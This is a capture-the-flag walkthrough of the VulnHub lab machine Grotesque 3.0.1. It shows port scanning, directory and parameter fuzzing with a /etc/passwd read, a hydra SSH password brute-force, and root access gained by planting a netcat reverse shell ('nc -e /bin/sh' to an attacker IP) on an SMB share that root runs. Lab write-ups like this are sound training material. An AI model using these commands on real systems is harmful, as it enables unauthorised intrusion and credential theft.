


# Grotesque: 3.0.1
https://www.vulnhub.com/entry/grotesque-301,723/

## Port scan

### Tool used: nmap
<br>

```
nmap -T4 -p- grote

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-21 10:51 CDT
Nmap scan report for grote (172.16.250.96)
Host is up (0.00042s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 87.87 seconds
```

First, we take a look at the website:<br><br>


Going to the "atlas" link, we see a large detailed picture. If we look close enough, we see a possible clue. There is an **M**, a **D**, and 3 **X**s. Could this mean MD5?<br><br>


Originally, *gobuster* did not return anything useful. So using the MD5 clue, we generate a list of hashes from a directory list dictionary:<br><br>

```
for i in $(cat /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt); do echo $i | md5sum >> md5.txt; done
```

Then we try *gobuster* again using our newly generated "hash" list file:<br><br>

```
gobuster dir --url http://grote --wordlist md5.txt -x php,html,htm,txt,jpg,png
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://grote
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                g3.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,htm,txt,jpg,png
[+] Timeout:                 10s
===============================================================
2022/09/21 11:27:27 Starting gobuster in directory enumeration mode
===============================================================
/f66b22bf020334b04c7d0d3eb5010391.php (Status: 200) [Size: 0]
                                                             
===============================================================
2022/09/21 11:29:57 Finished
===============================================================
```

Executing the PHP file returns a blank page, so there must be more to it. Using *FFuF* we perform some parameter fuzzing:<br><br>

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://grote/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=/etc/passwd -fs 4242


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://grote/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 4242
________________________________________________

ABBR                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 2ms]
pw2                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
px                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
purpose                 [Status: 200, Size: 1457, Words: 14, Lines: 28, Duration: 2ms]
q2                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
q                       [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 2ms]
qa                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]


:: Progress: [6453/6453] :: Job [1/1] :: 156 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

So now that we know **purpose** will work, we execute the request in *Burp* and see some results:<br><br>



Now that we have a username (freddie), we fire up our favorite bruteforcing tool *hydra* using the hash file we generated earlier:<br><br>

```
hydra -l freddie -P md5.txt -vV grote ssh -I

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-21 13:53:04
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 81705 login tries (l:1/p:81705), ~5107 tries per task
[DATA] attacking ssh://grote:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://freddie@172.16.250.96:22
[INFO] Successful, password authentication is supported by ssh://172.16.250.96:22
[ATTEMPT] target grote - login "freddie" - pass "61a4e3e60c063d1e472dd780f64e6cad" - 2243 of 81707 [child 10] (0/2)
[22][ssh] host: grote   login: freddie   password: 61a4e3e60c063d1e472dd780f64e6cad
[STATUS] attack finished for grote (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-21 14:17:20
```

We are able to login via SSH with **freddie** and the username *hydra* found, and quickly capture the **user.txt** flag:<br><br>

```
35A7EB682E33E89606102A883596A880
```

## Privilege escalation
<br>

*sudo* does not work, and we find nothing obvious when browsing around. Thinking maybe *netstat* will show something, it does not work either. *ss* worked, and shows us SMB is listening.<br><br>

```
ss -tunlp

Netid                State                 Recv-Q                Send-Q                                 Local Address:Port                                 Peer Address:Port                
udp                  UNCONN                0                     0                                     172.16.250.255:137                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                      172.16.250.96:137                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                            0.0.0.0:137                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                     172.16.250.255:138                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                      172.16.250.96:138                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                            0.0.0.0:138                                       0.0.0.0:*                   
udp                  UNCONN                0                     0                                            0.0.0.0:68                                        0.0.0.0:*                   
tcp                  LISTEN                0                     80                                         127.0.0.1:3306                                      0.0.0.0:*                   
tcp                  LISTEN                0                     50                                           0.0.0.0:139                                       0.0.0.0:*                   
tcp                  LISTEN                0                     128                                          0.0.0.0:22                                        0.0.0.0:*                   
tcp                  LISTEN                0                     50                                           0.0.0.0:445                                       0.0.0.0:*                   
tcp                  LISTEN                0                     50                                              [::]:139                                          [::]:*                   
tcp                  LISTEN                0                     128                                                *:80                                              *:*                   
tcp                  LISTEN                0                     50                                              [::]:445                                          [::]:*                   
```

Listing the SMB shares gives us a share name - grotesque - that we can login to without a password:<br><br>

```
smbclient -L 127.0.0.1
Unable to initialize messaging context
Enter WORKGROUP\freddie's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	grotesque       Disk      grotesque
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            GROTESQUE
```

 So we download *pspy* to the machine, and it appears **root** is executing everything in "/smbshare", which we cannot access:<br><br>

 

 So, we make a simple reverse shell payload to upload to the share:<br><br>

 ```
 nc -e /bin/sh 172.16.250.200:8000
 ```

 ```
 smbclient //127.0.0.1/grotesque

Unable to initialize messaging context
Enter WORKGROUP\freddie's password: 
Try "help" to get a list of possible commands.
smb: \> put shell 
putting file shell as \shell (340000.0 kb/s) (average inf kb/s)
```

Shortly after uploading the payload, we get a connection on our local listner:<br><br>

```
Connection from 172.16.250.96:49502

id
uid=0(root) gid=0(root) groups=0(root)
```

At this point, we capture the **root.txt** flag:<br><br>

```
5C42D6BB0EE9CE4CB7E7349652C45C4A
```